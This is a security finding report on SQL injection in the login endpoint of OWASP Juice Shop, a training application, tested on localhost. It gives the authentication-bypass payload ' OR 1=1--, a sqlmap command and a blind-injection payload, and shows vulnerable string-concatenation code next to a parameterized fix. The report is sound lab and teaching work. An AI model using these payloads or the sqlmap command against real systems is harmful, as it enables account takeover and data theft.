


# Finding Report: SQL Injection — Login Endpoint

## Metadata

| Field | Details |
|-------|---------|
| **Date** | 2026-03-14 |
| **Environment** | OWASP Juice Shop v15.0.0 |
| **Severity** | HIGH |
| **CVSS Score** | 8.8 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N) |
| **CWE** | CWE-89 — Improper Neutralization of Special Elements used in an SQL Command |
| **OWASP Category** | A03:2021 — Injection |

## Description

The login endpoint at `/rest/user/login` is vulnerable to SQL injection
via the `email` parameter. The application constructs an SQL query by
directly concatenating user-supplied input without sanitization, allowing
an attacker to manipulate the query logic.

The vulnerability allows authentication bypass — an attacker can log in
as any user, including the administrator, without knowing their password.
sqlmap confirmed boolean-based blind SQL injection with SQLite as the
backend database.

## Steps to Reproduce

### Manual exploitation (authentication bypass)

1. Navigate to `http://localhost:3000/#/login`
2. Enter the following payload in the email field:
```
   ' OR 1=1--
```
3. Enter any value in the password field
4. Click Login
5. The application logs in as the first user in the database (admin)

### Automated confirmation with sqlmap
```bash
sqlmap -u 'http://localhost:3000/rest/user/login' \
  --data='{"email":"test@test.com*","password":"test"}' \
  --headers='Content-Type: application/json' \
  --dbms=sqlite --level=3 --risk=2 --batch
```

**sqlmap result:**
- Parameter: `JSON #1*` (POST — email field)
- Type: Boolean-based blind
- Payload: `test@test.com' AND CASE WHEN 4792=4792 THEN 4792 ELSE JSON(CHAR(98,78,116,66)) END-- YlbT`
- Backend DBMS confirmed: SQLite

## Evidence




Full sqlmap output: [sqlmap-output.txt](./evidence/sqlmap-output.txt)

## Impact

An unauthenticated attacker can:
- Bypass authentication and access any user account without credentials
- Access the administrator account and all privileged functionality
- Potentially enumerate the full database contents via blind injection
- Access other users' personal data, order history, and payment information

In a production environment with real user data, this vulnerability would
constitute a critical data breach with regulatory implications (GDPR, etc.).

## Remediation

**Primary fix — use parameterized queries:**
```javascript
// VULNERABLE — string concatenation
const query = `SELECT * FROM Users WHERE email = '${email}'`;

// FIXED — parameterized query
const query = 'SELECT * FROM Users WHERE email = ?';
db.get(query, [email], callback);
```

**Additional controls:**
- Validate email format before querying (regex whitelist)
- Implement rate limiting on the login endpoint
- Never return detailed error messages to the client
- Use an ORM (Sequelize, TypeORM) which parameterizes by default

## References

- OWASP A03:2021: https://owasp.org/Top10/A03_2021-Injection/
- CWE-89: https://cwe.mitre.org/data/definitions/89.html
- OWASP SQL Injection Prevention: https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html